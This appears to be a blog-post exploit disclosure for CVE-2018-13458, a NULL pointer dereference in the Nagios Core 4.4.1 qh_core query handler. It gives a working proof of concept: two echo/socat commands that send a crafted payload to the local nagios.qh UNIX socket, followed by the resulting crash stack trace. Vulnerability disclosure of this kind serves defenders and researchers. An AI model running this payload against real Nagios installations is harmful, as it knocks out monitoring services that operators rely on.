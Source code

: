 ```yaml
---
layout: post
title: "Nagios Core qh_core Denial of Service"
comments: true
description: "Nagios Core qh_core Denial of Service"
keywords: "nagios, nagioscore, dos, denial of service"
---
```


Exploit Title: Nagios Core qh_core Denial of Service<br>
Date: 2018-07-09<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.nagios.org/<br>
Software Link: https://www.nagios.org/downloads/nagios-core/<br>
Version: 4.4.1 and earlier<br>
Tested on: 4.4.1<br>
CVE : CVE-2018-13458<br>

qh_core in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

```
$ echo -ne “#core\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@core\0" | socat unix-connect:./poc/nagios.qh -

#0 0x5546bc in qh_core /home/user/nagioscore/base/query-handler.c:408:6
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#5 0x7f6887b9882f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
```
